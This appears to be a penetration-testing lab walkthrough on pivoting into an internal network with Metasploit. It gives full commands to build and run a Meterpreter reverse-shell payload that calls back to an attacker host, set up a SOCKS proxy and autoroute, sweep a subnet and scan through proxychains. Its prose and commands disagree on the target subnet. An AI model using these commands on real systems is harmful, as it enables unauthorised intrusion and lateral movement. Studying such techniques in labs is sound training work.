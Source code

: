 ```yaml
---
legal-banner: true
---
```


1.  By using the `ifconfig` command, we observe that there is another network interface, ens192, which is part of a network that our current machine does not have direct access to.  
    
    ![](../../../img/Linux-Environment/24.png)
    
2.  To gain access to the `ens192` network, we can set up pivoting using Metasploit. The first step is to generate a reverse shell in ELF format using msfvenom.  
    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.219 LPORT=1337 -f elf > hackfast.elf`  
    
    ![](../../../img/Linux-Environment/25.png)
    
3.  Transfer the generated ELF file to the target machine (Check the File Transfer section for more information).  
    
    ![](../../../img/Linux-Environment/26.png)
    
4.  Start a Metasploit multi/handler to receive the reverse shell.  
    `msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set lhost 10.10.14.219; set lport 1337; exploit"`  
    
    ![](../../../img/Linux-Environment/27.png)
    
5.  After transferring the ELF file, give it execution permissions and run it on the target machine.  
    `chmod +x hackfast.elf && ./hackfast.elf`  
    
    ![](../../../img/Linux-Environment/28.png)
    
6.  With a Meterpreter shell established, we can now set up a SOCKS proxy server through Metasploit to tunnel our traffic. Use the following commands:
    
    ```
    use auxiliary/server/socks_proxy
    set SRVPORT 9050
    set SRVHOST 0.0.0.0
    set version 4a
    run
    jobs    //Confirming Proxy Server is Running
    ```
    
    ![](../../../img/Linux-Environment/29.png)
    
7.  After starting the SOCKS server, configure ProxyChains to route traffic through our newly established pivot. Add the following line to the end of the proxychains.conf file, typically located at /etc/proxychains.conf:  
    `socks4 127.0.0.1 9050`  
    
    ![](../../../img/Linux-Environment/30.png)
    
8.  Finally, use the post/multi/manage/autoroute module in Metasploit to route traffic for the 172.16.5.0 subnet through the Meterpreter session. This allows tools like Nmap to scan the target network through the proxy.
    
    ```
    use post/multi/manage/autoroute
    set SESSION 1
    set subnet 172.16.8.0
    run
    ```
    
    ![](../../../img/Linux-Environment/31.png)
    
9.  To discover active hosts within the 172.16.8.0/23 subnet, we can use the ping_sweep module:
    
    ```
    use post/multi/gather/ping_sweep
    set rhosts 172.16.8.0/23
    set SESSION 1
    run
    ```
    
    ![](../../../img/Linux-Environment/32.png)
    
10. With everything set up, you can now use Nmap (or other tools) to scan through the pivoting:  
    `proxychains nmap -sT -p22 [IP-ADRESS]`  
    
    ![](../../../img/Linux-Environment/33.png)